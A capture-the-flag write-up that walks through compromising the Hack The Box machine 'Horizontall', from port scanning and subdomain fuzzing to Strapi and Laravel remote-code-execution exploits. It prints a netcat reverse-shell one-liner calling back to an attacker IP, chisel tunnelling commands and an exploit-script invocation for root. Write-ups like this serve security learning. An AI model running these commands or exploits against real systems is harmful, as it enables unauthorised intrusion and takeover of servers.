 # Horizontall

The first thing I did was run a <mark style="color:green;">`Rustscan`</mark> on the target to quickly gather open ports.

```bash
rustscan -a 10.129.151.240 -- -A -sC -sV
```

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add <mark style="color:green;">`horizontall.htb`</mark> to our <mark style="color:green;">`/etc/hosts`</mark> file since in the output we got "_Did not follow redirect to http://horizontall.htb_"

![](<../../../../.gitbook/assets/image (7) (1) (1) (2).png>)

Searching on Google informs us that the latest version of <mark style="color:green;">`nginx`</mark> is 1.21.6 (mainline version) and 1.20.2 (stable version). We'll keep this in mind.

Going to the site, we see a web page.

![](<../../../../.gitbook/assets/image (36).png>)

Viewing the source code and going through the site really did not provide anything useful. However, is it possible for the <mark style="color:green;">`nginx`</mark> server to have more vhosts or subdomains? Using <mark style="color:green;">`ffuf`</mark>, we will see something.

```bash
ffuf -u http://horizontall.htb -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.horizontall.htb' -fs 0 -mc 200 
```

![api-prod subdomain](<../../../../.gitbook/assets/image (30) (1) (1).png>)

Heading back over to the browser, we are presented with a basic welcome page.

![](<../../../../.gitbook/assets/image (42) (1).png>)

Time to enumerate some more. Now there are two interesting directories that we can explore.

![](<../../../../.gitbook/assets/image (35) (1).png>)

The reviews directory yields us some users: <mark style="color:green;">`wail`</mark>, <mark style="color:green;">`doe`</mark>, and <mark style="color:green;">`john`</mark>

![](<../../../../.gitbook/assets/image (33) (1).png>)

And the admin page

![](<../../../../.gitbook/assets/image (40) (1) (1).png>)

Doing a google search on <mark style="color:green;">`strapi`</mark> shows that it is an open source Node.js headless Content Management System (CMS)

Great! Now hopefully we can find a version number somewhere...

![](<../../../../.gitbook/assets/image (16) (1).png>)

It seems the current version of is <mark style="color:green;">`Strapi 3.0.0-beta.17.4`</mark>

![](<../../../../.gitbook/assets/image (37) (1).png>)

Using <mark style="color:green;">`searchsploit`</mark> gives us some good news. Remote Code Execution ([RCE](https://www.exploit-db.com/exploits/50239))!

![](<../../../../.gitbook/assets/image (58).png>)

According to [CVE-2019-18818](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818)

> strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js."

There's also [CVE-2019-19609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609)

> The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function.

We run the exploit and then login

![](<../../../../.gitbook/assets/image (63).png>)

![](<../../../../.gitbook/assets/image (24) (1) (1).png>)

Awesome! Now there's Plugin called "Files Upload", let's see if we can upload a file to get a reverse shell.

I tried multiple times to get a shell, but the output of following the file yielded something like this:

![](<../../../../.gitbook/assets/image (69) (1).png>)

```
http://localhost:1337/uploads/0083c7ac6ed14dce9cc54821af03bf08.php
```

Which made sense based on the exploit code (that's why we see port 1337). I was thinking about if we could do something with changing the port, but that seemed like something too complex and lead to a deep rabbit hole. Then I thought, if we have RCE already from the exploit, couldn't we just try to get a shell that way?

As it turns out, that was a very quick solution

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4444 >/tmp/f
```

![](<../../../../.gitbook/assets/image (64) (1).png>)

After upgrading my shell, I searched for the user.txt file

![](<../../../../.gitbook/assets/image (46) (1).png>)

I ran linepeas.sh and noticed something interesting. Looks like there is MySQL running and something else on port 8000. What is that port used for?

![](<../../../../.gitbook/assets/image (41) (1) (1).png>)

A Google search gave me this result

> TCP Port 8000 is commonly used for development environments of web server software. It generally should not be exposed directly to the Internet. If you are running software like this on the Internet, you should consider placing it behind a reverse proxy.
>
> [Source](https://www.elastic.co/guide/en/siem/guide/current/tcp-port-8000-activity-to-the-internet.html)

This most likely means we might have to do some port forwarding in order to see the website. But first let's see if we can grab some information before doing this.

Using <mark style="color:green;">`curl -v localhost:8000`</mark> gave us a site powered by Laravel AND it's version number

![](<../../../../.gitbook/assets/image (65).png>)

Searching for exploits I found these which were helpful

{% embed url="https://www.exploit-db.com/exploits/49424" %}

{% embed url="https://www.ambionics.io/blog/laravel-debug-rce" %}

{% embed url="https://github.com/nth347/CVE-2021-3129_exploit" %}

According to [CVE-2021-3129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3129)

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file\_get\_contents() and file\_put\_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

#### Port Forwarding

Now to do some port forwarding. We'll use the [chisel ](https://github.com/jpillora/chisel)tool

We'll transfer it to our victim machine and make it an executable

![](<../../../../.gitbook/assets/image (34).png>)

Then we'll run the below commands on our kali machine and the victim machine respectively

```bash
./chisel server -p 7777 --reverse # Kali machine
./chisel client 10.10.14.38:7777 R:8000:127.0.0.1:8000 # on Victim
```

![](<../../../../.gitbook/assets/image (38) (1).png>)

![Victim machine](<../../../../.gitbook/assets/image (5) (2).png>)

Now when we go to <mark style="color:green;">`http://127.0.0.1:8000`</mark> in the browser, we can see the Laravel site

![](<../../../../.gitbook/assets/image (49) (1).png>)

#### Priv Esc

Using the GitHub resource for the Laravel vulnerability, we'll execute the following command

```python
./privesc.py http://localhost:8000 Monolog/RCE1 "whoami"
```

![](<../../../../.gitbook/assets/image (67) (1).png>)

Awesome! Now we can cat the root.txt file

![](<../../../../.gitbook/assets/image (59).png>)

This is nice, but a shell would be nicer :)

![](<../../../../.gitbook/assets/image (18) (1) (1).png>)

![](<../../../../.gitbook/assets/image (55) (1).png>)

{% hint style="info" %}
Although we get a shell, it's not very stable. But it does the job regardless
{% endhint %}

SUCCESS!

![](<../../../../.gitbook/assets/image (15) (1).png>)
